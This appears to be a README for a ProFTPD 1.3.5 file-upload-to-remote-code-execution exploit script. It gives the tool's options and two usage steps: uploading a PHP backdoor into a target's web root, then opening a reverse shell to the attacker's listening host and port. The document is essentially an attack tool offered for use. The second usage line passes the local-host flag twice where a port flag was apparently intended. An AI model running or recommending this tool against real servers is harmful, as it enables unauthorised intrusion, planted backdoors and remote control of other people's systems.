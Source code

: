 # ProFTPD 1.3.5 File Upload to RCE exploit!


    ProFTPd 1.3.5 File Uploader
    Usage: ProFTPD.py [options]

    Options:
      -h, --help             show this help message and exit
      -l LHOST, --lhost=LHOST
                             Local IP Required for Reverse Shell,
      -p LPORT, --lport=LPORT
                             Port Required for Reverse Shell,
      -t TARGET, --target=TARGET
                             Vulnerable Target,
      -d DIRECTORY, --dir=DIRECTORY
                             WebRoot directory to Upload Backdoor,  Default: /var/www/html
      -c COMMAND, --command=COMMAND
                             System Command,
      -f FILE, --file=FILE  
                             Backdoor Name,  Default: shell.php.
                                          
      




STEP 1 - Upload Backdoor!

    Usage: python3 exploit.py -t 10.x.x.x -f cmd.php -d '/var/www/html'

STEP 2 - Get Shell! mere commodity! you can always curl your backdoor!

    Usage: python3 exploit.py -t 10.x.x.x -f cmd.php -l 172.x.x.x -l 4242
